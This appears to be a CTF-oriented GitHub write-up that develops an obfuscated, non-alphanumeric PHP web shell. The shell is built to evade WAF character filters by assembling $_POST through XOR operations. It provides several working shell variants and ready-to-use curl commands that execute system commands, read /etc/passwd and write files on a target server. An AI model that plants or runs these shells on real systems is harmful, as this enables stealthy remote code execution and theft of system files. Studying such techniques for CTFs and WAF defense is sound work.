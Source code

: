 # Non-Alphanumeric WebShell in PHP

The main goal of a php shell is that you can execute code on the server from the outside.

This can happen via a normal eval shell or with a tiny shell like this:
```php
<?=`$_GET[1]`?>
```
The downside is that the most WAFs at a CTF filter alot of available chars out to make the exploitation harder.

Common chars to be blocked or filtered are 
```
"'`a-zA-Z
```

To be still able to deploy a working shell there are a few things we need to do.

At first there are already non-alphanumeric shells out in the wild but the ones i have seen had one thing in common they needed Quotation marks to create a string once to craft letters out of it.

So I thought to myself, that it would be a quite cool idea to develope a shell which could avoid that and still work the same way.
Thats the first Solution i came up with:

```php
<?=0;$_=[];$_.=[];$_=${(($_[0]^(0 .$_[1]))^(($_[0]^(6 .$_[1]))^($_[3]^(8 .$_[1])))).($_[3]^(1 .$_[1])).($_[4]^(6 .$_[1])).($_[3]^(2 .$_[1])).($_[3]^(5 .$_[1]))};$_[0]($_[1]);
```

Not optimal at all but it works, it crafts a string element at the start from an Array which results in a string with the value "Array" which then can be crafted in \_POST by the xor operator.

| Char X | Char Y | Result |
| - | - | - |
| A | 0 | q |
| A | 6 | w |
| q | w | . |
| a | 8 | Y |
| . | Y | _ |
| a | 1 | P |
| y | 6 | O |
| a | 2 | S |
| a | 5 | T |

Which resulted in \_POST and then can be used to run functions with arguments over code. (This feature is present since php7)

Like this:

```php
// $_ is $_POST
$_[0]($_[1]);
```

Thats quite cool but its so fucking huge so i tough i would optimize the hell out of it. So here is my Minified version of it.

```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]);
```

So you can send a request such as ```0=system&1_=cat /etc/passwd```

The downside is that if you dont have access to the system function you got no return values
so here is another slightly bigger variation of the shell which will print the result of a function.

```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2]));
```

So you can send a request such as ```0=print_r&1=file_get_contents&2_=/etc/passwd```

Here are small curl snippets for you lazy folks to work with the shell :D

```bash
curl https://host.ctf.com/shell.php -X POST -F "0=system" -F "1=cat /etc/passwd" # Shell 1
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=file_get_contents" -F "2=/etc/passwd" # Shell 2
```

The full tryhard shell can be archived with this snipped:

```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2], $_[3]));
```

With this setup we can run any function with as much arguments as we like.


```bash
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=call_user_func_array" -F "2=file_put_contents" -F "3[]=hello.txt" -F "3[]=testcontent"
```


Cli-Ish over and out.

PS: Checkout our cool team page https://pwnprophecy.tk)
